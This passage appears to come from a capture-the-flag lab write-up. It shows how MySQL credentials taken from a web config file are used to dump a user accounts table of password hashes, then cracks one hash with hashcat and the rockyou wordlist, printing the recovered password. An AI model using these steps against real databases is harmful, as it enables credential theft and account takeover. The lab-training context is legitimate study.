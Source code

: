 Use the mysql creds found in the websites config.php to loot the db
```sql
mysql> select * from accounts;
+----+----------+------------------------------------+---------------------+
| id | username | password                           | created_at          |
+----+----------+------------------------------------+---------------------+
|  1 | m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
|  2 | hunter   | $1$🧂llol$Z4IZtlCMg4gNAyUcikzPb1 | 2021-08-25 17:28:04 |
|  3 | hardik   | $1$🧂llol$gGHEssfi3s6Oif1MihowO1 | 2021-08-25 17:52:38 |
|  4 | admin    | $1$🧂llol$2dP07soPAzxuFKV1o/vsW. | 2021-08-25 17:54:41 |
+----+----------+------------------------------------+---------------------+
4 rows in set (0.00 sec)
```
Run the hash for m4lwhere through hashcat with rockyou.txt as the wordlist and it eventually cracks: ```$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235!```